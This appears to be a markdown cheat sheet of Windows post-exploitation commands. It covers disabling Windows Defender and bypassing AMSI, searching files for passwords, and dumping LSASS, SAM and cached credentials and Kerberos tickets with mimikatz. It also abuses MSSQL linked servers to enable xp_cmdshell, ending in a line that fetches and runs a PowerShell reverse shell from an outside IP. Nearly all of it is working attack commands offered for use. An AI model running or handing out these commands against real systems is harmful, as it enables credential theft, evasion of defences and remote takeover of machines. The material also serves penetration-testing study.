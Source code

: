 ## Disable Antivirus  
### With Admin privileges  
Add a folder to the list of paths for which Windows Defender scheduled and real-time scanning is disabled:  
`PS C:\> Add-MpPreference –ExclusionPath “C:\Temp\User"`
  
Disable real-time protection:  
`PS C:\> Set-MpPreference –DisableRealtimeMonitoring $True`  

Some AMSI (Antimalware scan interface) bypass techniques:  
- `PS C:\> powershell.exe –version 2` (Downgrade to PowerShell 2.0 (.NET Framework 3.5 is required)  
- Crash the AMSI process by running payloads available « amsi.fail » (https://amsi.fail).  
  
## Search passwords  
### Enumerate local secrets by searching for keywords in files  
```
findstr /s /i /m "password" "C:\path\to\search\directory\*.*"
```
/s (findstr) or -Recurse (Get-ChildItem) option ensures that the search is performed in all subdirectories.  
/i (findstr) option or -CaseSensitive (Select-String) option performs a case-insensitive search.  
/m (findstr) option is used to print only the filenames with the matching content.  
`Get-ChildItem -Path C:\* -Include *.xml,*.ini,*.txt,*.config,*.ps1,*.bat, *.properties,*.cfg,*.vbs,*.wsf,*.cmd -ErrorAction SilentlyContinue -Recurse | Select-String "adm","<domain>","pass","pwd","mdp","cred","config","username","SecureString" -List | Select-Object -ExpandProperty Path`  
  
    
### With Admin privileges - Extract passwords  
`mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"`  
  
**Explanation :**  
`privilege::debug` & `token::elevate` Elevate Privileges to extract the credentials  
`sekurlsa::logonpasswords` Extracts creds from lsass (memory)  
`lsadump::lsa /inject` Extracts from lsass (service)  
`lsadump::sam` Extracts creds from SAM  

## Extract Kerberos tickets from memory  
### With Admin privileges 
   
`mimikatz.exe "privilege::debug" "token::elevate" "kerberos::list /export" "exit"`    


## MSSQL Privesc   
### Check if the local MSSQL DB is linked to another instance:  
`Get-SqlServerLinkCrawl -Verbose`    
    
**Manual trusted link queery** (From https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql)  
`Get-SQLQuery -Instance "DBWEB,1433" -Query "select * from openquery(""m4sqlz.m4c.loc"", 'select * from information_schema.tables')"`  
**Enable xp_cmdshell and check it**  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'SELECT * FROM OPENQUERY("m4sqlz.m4c.loc", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'`  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [m4sqlz.m4c.loc]'`  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [m4sqlz.m4c.loc]'`  
  
If you see the results of @@selectname, it worked  
Then :   
`osql -E -S "DBWEB" -Q "EXECUTE('xp_cmdshell whoami') AT [m4sqlz.m4c.loc];"`
OR   
`Get-SQLServerLinkCrawl -Instance CYWEBDW -Query "EXEC master..xp_cmdshell 'powershell.exe iex (iwr http://10.10.16.20:8080/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.20 -Port 443'"`  
  
